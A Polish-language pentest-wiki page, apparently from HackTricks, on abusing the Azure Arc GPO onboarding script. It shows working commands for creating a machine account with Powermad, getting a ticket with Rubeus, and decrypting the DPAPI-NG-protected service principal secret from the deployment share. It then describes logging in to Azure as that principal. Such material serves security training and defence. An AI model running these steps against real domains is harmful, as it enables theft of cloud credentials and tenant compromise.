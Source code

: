 # Az - Arc podatny skrypt wdrażania GPO

{{#include ../../../banners/hacktricks-training.md}}

### Identyfikacja problemów

Azure Arc umożliwia integrację nowych wewnętrznych serwerów (serwery dołączone do domeny) z Azure Arc za pomocą metody obiektu zasad grupy. Aby to ułatwić, Microsoft dostarcza zestaw narzędzi do wdrażania niezbędny do rozpoczęcia procedury onboardingu. W pliku ArcEnableServerGroupPolicy.zip znajdują się następujące skrypty: DeployGPO.ps1, EnableAzureArc.ps1 oraz AzureArcDeployment.psm1.

Po uruchomieniu skrypt DeployGPO.ps1 wykonuje następujące czynności:

1. Tworzy GPO onboardingu serwerów Azure Arc w lokalnej domenie.
2. Kopiuje skrypt onboardingu EnableAzureArc.ps1 do wyznaczonego udziału sieciowego utworzonego na potrzeby procesu onboardingu, który zawiera również pakiet instalacyjny Windows.

Podczas uruchamiania tego skryptu, administratorzy systemów muszą podać dwa główne parametry: **ServicePrincipalId** oraz **ServicePrincipalClientSecret**. Dodatkowo wymagane są inne parametry, takie jak domena, FQDN serwera hostującego udział oraz nazwa udziału. Dalsze szczegóły, takie jak identyfikator najemcy, grupa zasobów i inne niezbędne informacje, muszą być również dostarczone do skryptu.

W katalogu AzureArcDeploy na określonym udziale generowany jest zaszyfrowany sekret przy użyciu szyfrowania DPAPI-NG. Zaszyfrowany sekret jest przechowywany w pliku o nazwie encryptedServicePrincipalSecret. Dowody na to można znaleźć w skrypcie DeployGPO.ps1, gdzie szyfrowanie jest wykonywane przez wywołanie ProtectBase64 z $descriptor i $ServicePrincipalSecret jako wejściami. Deskriptor składa się z SID-ów grupy komputerów domenowych i kontrolerów domeny, co zapewnia, że ServicePrincipalSecret może być odszyfrowany tylko przez grupy zabezpieczeń kontrolerów domeny i komputerów domenowych, jak zauważono w komentarzach skryptu.
```bash
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Exploit

Mamy następujące warunki:

1. Sukcesywnie przeniknęliśmy do wewnętrznej sieci.
2. Mamy możliwość utworzenia lub przejęcia kontroli nad kontem komputera w Active Directory.
3. Odkryliśmy udział sieciowy zawierający katalog AzureArcDeploy.

Istnieje kilka metod uzyskania konta maszyny w środowisku AD. Jedną z najczęstszych jest wykorzystanie kwoty konta maszyny. Inną metodą jest kompromitacja konta maszyny poprzez podatne ACL lub różne inne błędne konfiguracje.
```bash
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
Po uzyskaniu konta maszyny możliwe jest uwierzytelnienie się za pomocą tego konta. Możemy użyć polecenia runas.exe z flagą netonly lub użyć pass-the-ticket z Rubeus.exe.
```bash
runas /user:fake01$ /netonly powershell
```

```bash
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
Mając TGT dla naszego konta komputera przechowywane w pamięci, możemy użyć następującego skryptu do odszyfrowania sekretu głównego usługi.
```bash
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
Alternatywnie, możemy użyć [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG).

W tym momencie możemy zebrać pozostałe informacje potrzebne do połączenia z Azure z pliku ArcInfo.json, który jest przechowywany w tym samym udostępnionym zasobie sieciowym co plik encryptedServicePrincipalSecret. Plik ten zawiera szczegóły takie jak: TenantId, servicePrincipalClientId, ResourceGroup i inne. Z tymi informacjami możemy użyć Azure CLI do uwierzytelnienia się jako skompromitowany service principal.

## References

- [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)

{{#include ../../../banners/hacktricks-training.md}}
